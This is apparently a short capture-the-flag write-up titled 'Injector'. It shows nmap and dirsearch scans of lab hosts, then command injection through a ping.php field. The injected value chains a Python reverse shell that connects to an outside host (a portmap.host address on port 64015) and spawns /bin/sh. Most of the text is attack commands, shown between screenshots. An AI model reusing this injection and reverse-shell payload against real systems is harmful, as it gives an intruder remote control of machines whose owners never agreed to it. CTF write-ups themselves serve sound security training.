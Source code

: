 # Injector

```
nmap -sC -sV 10.10.10.10
```

<img width="870" height="326" alt="image" src="https://github.com/user-attachments/assets/bada1cf8-b495-474f-8cfb-3f9c7b77105b" />


```
dirsearch -u http://172.24.170.117/
```

<img width="657" height="110" alt="image" src="https://github.com/user-attachments/assets/97c6818a-6734-45c3-8e38-152a5a4d988b" />


```
dirsearch -u http://172.24.170.117/secret/ -e php -x 404,403
```

<img width="830" height="362" alt="image" src="https://github.com/user-attachments/assets/7b9f184d-ea92-49ab-9fa2-048ba7f82576" />


----

```
http://54.151.66.45/secret/tools/ping.php
```

<img width="1116" height="311" alt="image" src="https://github.com/user-attachments/assets/9f7af11e-f659-4c54-be09-8f5a11a22802" />


```
127.0.0.1; python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("FRANKISHTIEN-64015.portmap.host",64015));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


<img width="672" height="158" alt="image" src="https://github.com/user-attachments/assets/7efc4ec7-a7ba-4237-b010-b143ac772e21" />


```

```








